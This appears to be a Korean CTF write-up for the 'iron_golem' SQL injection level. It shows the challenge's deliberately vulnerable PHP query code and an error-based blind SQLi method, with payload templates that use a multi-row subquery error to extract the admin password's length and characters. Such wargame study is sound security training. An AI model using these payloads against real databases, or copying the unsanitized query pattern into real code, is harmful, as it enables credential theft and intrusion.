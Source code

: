 # IRON_GOLEM

## Problem
```php
<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit(mysql_error());
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
  highlight_file(__FILE__);
?>
```

## Inspection
* `if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");`
	- `pw`에 `sleep`, `benchmark`는 거른다.
* `select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'`
	- 첫번째 쿼리문이다.
	- 파라미터로 `pw`를 받는다.
* `if(mysql_error()) exit(mysql_error());`
	- 쿼리 에러가 있을 때 출력해준다.
	- 쿼리문의 결과가 참 또는 거짓일 때 에러를 일으킬 수 있다면, Blind SQLi가 가능하다.
* `select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'`
	- 두번째 쿼리문이다.
	- 파라미터로 `pw`를 받는다.
* `if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");`
	- 두번째 쿼리문의 결과의 `pw`가 파라미터의 `pw`와 같으면 통과한다.

## Solution
* [`iron_golem_blind_sqli_parametric_search.py`](./iron_golem_blind_sqli_parametric_search.py)
	- [How to conditionally raise an error in mysql without stored procedure](https://dba.stackexchange.com/questions/78594/how-to-conditionally-raise-an-error-in-mysql-without-stored-procedure)
		+ 여러 개의 레코드들을 돌려주는 서브쿼리를 작성한다.
		+ ex. `SELECT 1 UNION ALL SELECT 4`
	- `admin`의 `pw`의 길이를 알아낸다.
		+ `' or id = 'admin' and 1 = (case when length(pw) < {x} then (SELECT 1 UNION ALL SELECT 4 UNION ALL SELECT 7) else 1 end) -- `
		+ 참일 때 여러 개의 레코드들을 돌려주는 서브쿼리를 처리하게 하여 `Subquery returns more than 1 row`가 뜨도록 한다.
	- `admin`의 `pw`를 한 글자씩 유추한다.
		+ `' or id = 'admin' and 1 = (case when ord(mid(pw,{i},1)) < {x} then (SELECT 1 UNION ALL SELECT 4 UNION ALL SELECT 7) else 1 end) -- `
		- 참일 때 여러 개의 레코드들을 돌려주는 서브쿼리를 처리하게 하여 `Subquery returns more than 1 row`가 뜨도록 한다.

## Review
* 오류를 일으키는 것으로 참/거짓을 구분하는 Error-based Blind SQLi로 접근한 것은 좋았다.
* 여러 개의 열이 있는 레코드들을 돌려주는 서브쿼리는 `Operand should contain 1 column(s)`가 뜨는데, 이는 참이든 거짓이든 항상 뜨는 오류로 Blind SQLi를 할 수 없게 된다.
* `true AND (subquery)`에서 `subquery`는 열이 하나인 레코드들이 나오게 해야 한다.